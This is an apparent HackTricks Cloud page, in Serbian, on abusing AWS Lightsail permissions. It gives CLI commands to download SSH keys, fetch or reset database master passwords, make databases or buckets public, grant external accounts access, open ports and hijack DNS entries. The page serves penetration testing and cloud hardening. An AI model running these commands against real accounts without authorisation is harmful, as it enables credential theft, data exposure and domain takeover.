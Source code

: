 # AWS - Lightsail Privesc

{% hint style="success" %}
Naučite i vežbajte hakovanje AWS-a: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naučite i vežbajte hakovanje GCP-a: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakovanje trikova slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## Lightsail

Za više informacija o Lightsail-u proverite:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Važno je napomenuti da Lightsail **ne koristi IAM uloge koje pripadaju korisniku** već AWS upravljani nalog, tako da ne možete zloupotrebiti ovu uslugu za privesc. Međutim, **osetljivi podaci** poput koda, API ključeva i informacija o bazi podataka mogu se pronaći u ovoj usluzi.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Ova dozvola će vam omogućiti da preuzmete SSH ključeve za pristup instancama:
```
aws lightsail download-default-key-pair
```
**Potencijalni uticaj:** Pronalaženje osetljivih informacija unutar instanci.

### `lightsail:GetInstanceAccessDetails`

Ova dozvola će vam omogućiti da generišete SSH ključeve za pristup instancama:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Potencijalni uticaj:** Pronalaženje osetljivih informacija unutar instanci.

### `lightsail:CreateBucketAccessKey`

Ova dozvola će vam omogućiti da dobijete ključ za pristup korpi:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Potencijalni uticaj:** Pronalaženje osetljivih informacija unutar kante.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Ova dozvola će vam omogućiti da dobijete pristupne podatke za pristup bazi podataka:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Potencijalni uticaj:** Pronalaženje osetljivih informacija unutar baze podataka.

### `lightsail:UpdateRelationalDatabase`

Ova dozvola će vam omogućiti da promenite lozinku za pristup bazi podataka:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Ako baza podataka nije javna, takođe je možete učiniti javnom sa ovim dozvolama pomoću

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Potencijalni uticaj:** Pronalaženje osetljivih informacija unutar baze podataka.

### `lightsail:OpenInstancePublicPorts`

Ova dozvola omogućava otvaranje portova ka internetu.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Potencijalni uticaj:** Pristup osetljivim portovima.

### `lightsail:PutInstancePublicPorts`

Ova dozvola omogućava otvaranje portova ka internetu. Napomena da će poziv zatvoriti bilo koji port koji nije naveden na njemu.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Potencijalni uticaj:** Pristup osetljivim portovima.

### `lightsail:SetResourceAccessForBucket`

Ova dozvola omogućava davanje instancama pristupa kanti bez dodatnih akreditacija

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Potencijalni uticaj:** Potencijalni novi pristup kantama sa osetljivim informacijama.

### `lightsail:UpdateBucket`

Sa ovlašćenjem, napadač bi mogao da dodeli svom AWS nalogu pristup za čitanje preko kanti ili čak da kante učini javnim za sve:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Potencijalni uticaj:** Potencijalni novi pristup kantama sa osetljivim informacijama.

### `lightsail:UpdateContainerService`

Sa ovim dozvolama napadač bi mogao da omogući pristup privatnim ECR-ima iz usluge kontejnera.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Potencijalni uticaj:** Dobijanje osetljivih informacija iz privatnog ECR-a

### `lightsail:CreateDomainEntry`

Napadač sa ovlašćenjem može kreirati poddomen i usmeriti ga ka svojoj IP adresi (preuzimanje poddomena), ili kreirati SPF zapis koji mu omogućava da falsifikuje e-poštu sa domena, ili čak postaviti glavni domen na svoju IP adresu.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potencijalni uticaj:** Preuzimanje domena

### `lightsail:UpdateDomainEntry`

Napadač sa ovlašćenjem može kreirati poddomen i usmeriti ga ka svojoj IP adresi (preuzimanje poddomena), ili kreirati SPF zapis koji mu omogućava da falsifikuje e-poštu sa domena, ili čak postaviti glavni domen na svoju IP adresu.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potencijalni uticaj:** Preuzimanje domena

{% hint style="success" %}
Naučite i vežbajte hakovanje AWS-a: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks obuka AWS Crveni Tim Ekspert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naučite i vežbajte hakovanje GCP-a: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks obuka GCP Crveni Tim Ekspert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakovanje trikova slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
